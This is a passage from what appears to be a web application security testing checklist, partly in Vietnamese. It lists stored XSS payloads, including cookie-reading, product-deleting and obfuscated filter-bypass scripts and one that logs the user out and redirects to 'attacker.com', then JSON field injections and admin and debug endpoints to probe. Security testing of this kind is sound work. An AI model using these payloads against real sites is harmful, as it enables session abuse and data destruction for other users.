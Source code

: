 
## 🎭 5. XSS & INPUT VALIDATION TESTING

### 5.1 Stored XSS Payloads
```html
<!-- Basic XSS -->
<script>alert('XSS')</script>
<script>alert(document.cookie)</script>

<!-- Event-based XSS -->
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
<iframe src=javascript:alert('XSS')>

<!-- Advanced XSS -->
<script>fetch('/api/products',{method:'DELETE'})</script>
<script>
  fetch('/api/auth/logout', {method: 'POST', credentials: 'include'})
  .then(() => window.location = 'http://attacker.com')
</script>

<!-- Filter bypass -->
<ScRiPt>alert('XSS')</ScRiPt>
<script>eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))</script>
```

### 5.2 Product Input XSS
```json
// Test XSS trong product creation
POST /api/products
{
  "name": "<script>alert('XSS')</script>",
  "description": "<img src=x onerror=alert('Product XSS')>",
  "price": "<svg onload=alert('Price XSS')>"
}
```

---

## 📡 6. API ENDPOINT DISCOVERY

### 6.1 Common Endpoints
```bash
# Test các endpoint thường gặp
GET /api/
GET /api/v1/
GET /api/docs
GET /api/swagger
GET /.well-known/
GET /robots.txt
GET /sitemap.xml

# Admin endpoints
GET /admin
GET /api/admin
GET /dashboard
GET /console

# Debug endpoints
GET /debug
GET /api/debug
GET /health
GET /status
```
